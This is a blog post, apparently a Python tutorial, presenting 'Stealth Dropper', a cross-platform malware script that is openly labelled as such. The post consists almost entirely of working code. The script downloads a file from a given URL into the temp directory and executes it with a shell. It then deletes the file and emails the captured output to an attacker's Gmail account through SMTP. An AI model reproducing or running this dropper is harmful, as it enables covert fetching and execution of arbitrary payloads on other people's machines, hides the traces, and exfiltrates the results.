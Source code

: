 ```yaml
---
title: Malware - Stealth Dropper
date: 2021-08-19 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Downloads, executes, reports and cleans up after.
---
```


<p align="center">
 <img src="https://i.imgflip.com/4/3pt59r.jpg">
</p>

## A Cross Platform python script that downloads, executes, reports and cleans up after.


- We implement:

  > the tempfile module - to find the temp dir.

  > the os module - to use platform independent functions like chdir to change to the temp dir.

  > the subprocess module - to execute and remove the created file.

  > the smtplib module - to create an SMTP instance to send our reports back to our proviced mail address.




### Code:

```python
#!/usr/bin/env python

import requests, subprocess, smtplib, os, tempfile, argparse

# Cross-Platform
# Works by default with google's SMTP


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-d", "--download-file", dest="download", help="File to Download")
    parser.add_argument("-a", "--args", dest="args", help="args if provided by Download file")
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.download:
        # code to handle error
        parser.error("\n[-] Please specify a valid download url,  use --help for info.")
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    return options


def download(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    # Open File with write and binary mode
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)
    return file_name

def send_mail(email, password, message):
    # Google's SMTP definition
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()


print("""\n\n\n
                                                        𝕾𝖙𝖊𝖆𝖑𝖙𝖍-𝕯𝖗𝖔𝖕𝖕𝖊𝖗
    """)


print("\n{-} Finding /tmp dir.")
options = get_arguments()


# Find /tmp dir on OS
temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
print("{+} /tmp dir found!")

# Download
file_name = download(options.download)
print("\n{+} File " + file_name + " has been succesfully dropped!")
# Execute
result = subprocess.check_output(file_name + " " +  options.args, shell=True)
print("{+} File " + file_name + " has been succesfully Executed!")
# Remove
os.remove(file_name)
print("{+} File " + file_name + " has been succesfully Removed!")
# Report
send_mail(options.email, options.password, result)
print("\n\n{!} Report sent to: " + options.email)
```

### Output:

_Console:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper.png)

_Report:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper2.png)




